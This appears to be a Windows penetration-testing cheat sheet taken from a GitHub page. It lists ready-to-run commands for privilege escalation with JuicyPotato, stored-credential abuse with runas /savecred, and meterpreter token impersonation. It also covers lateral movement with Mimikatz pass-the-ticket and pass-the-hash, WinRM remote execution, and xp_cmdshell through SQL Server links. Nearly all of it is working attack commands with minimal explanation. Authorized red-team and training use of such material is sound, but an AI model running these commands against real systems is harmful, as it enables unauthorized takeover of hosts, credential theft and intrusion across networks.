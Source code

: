      Juicy Potato

https://github.com/ohpe/juicy-potato/releases
Pick one CLSID from here according to your system
https://github.com/ohpe/juicy-potato/tree/master/CLSID

Required tokens
SeAssignPrimaryTokenPrivilege
SeImpersonatePrivilege

    C:\Windows\Temp\JuicyPotato.exe -p cmd.exe -a "/c whoami > C:\Users\Public\morph3.txt" -t * -l 1031 -c {d20a3293-3341-4ae8-9aaf-8e397cb63c34}

      Stored Credential

    # To check if there is any stored keyscmdkey /list
    # Using them
    runas /user:administrator /savecred "cmd.exe /k whoami"

      Impersonating Tokens with meterpreter

    use incognito
    list_tokens -u
    impersonate_token NT-AUTHORITY\System

Lateral Movement

PsExec, SmbExec, WMIExec, RDP, PTH in general.
Since windows gave support to OpenSSH we should also consider SSH.
     Mimikatz Ticket PTH

    Enable-PSRemoting
    mimikatz.exe '" kerberos:ptt C:\Users\Public\ticketname.kirbi"' "exit"
    Enter-PSSession -ComputerName ECORP

     Winrm Session

    $pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass)
    Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }

     PTH with Mimikatz

    Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:command"'

     Database Links

    # PowerUpSQL
    https://github.com/NetSPI/PowerUpSQL
    Get-SQLServerLink -Instance server -Verbose
    powershell.exe -c "Import-Module C:\Users\Public\PowerUpSQL.ps1; Invoke-SQLEscalatePriv -Verbose -Instance ECORP\sql"
    # To see servers
    select srvname from master..sysservers;
    # Native
    Get-SQLServerLinkCrawl -Instance server -Query "exec master..xp_cmdshell 'whoami'"
    # Linked database tables
    select * from openquery("ECORP\FOO", 'select TABLE_NAME from FOO.INFORMATION_SCHEMA.TABLES')
    # You can also use meterpreter module exploit/windows/mssql/mssql_linkcrawler